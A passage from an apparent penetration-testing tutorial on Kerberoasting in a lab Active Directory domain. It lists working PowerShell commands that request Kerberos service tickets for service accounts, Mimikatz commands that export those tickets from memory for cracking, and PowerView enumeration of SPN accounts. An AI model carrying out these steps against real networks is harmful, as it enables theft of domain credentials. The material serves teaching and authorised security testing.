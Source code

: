 ```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

Let's break down the commands above to see what we are doing (which is essentially what is used by [Rubeus](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1) when using the default Kerberoasting method):

- The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
- The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
- [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
- We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
- We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

We can also choose to retrieve all tickets using the same method, but this will also pull all computer accounts, so it is not optimal.

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

Now that the tickets are loaded, we can use `Mimikatz` to extract the ticket(s) from `memory`.

```powershell
.\mimikatz.exe
```

```mimikatz
base64 /out:true
kerberos::list /export
```

Then crack the hashes.

### Automated Tools / Tool Based Route

#### Powerview

First, let's use [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) to extract the TGS tickets and convert them to Hashcat format. We can start by enumerating SPN accounts.

```powershell
Get-DomainUser * -spn | select samaccountname
```
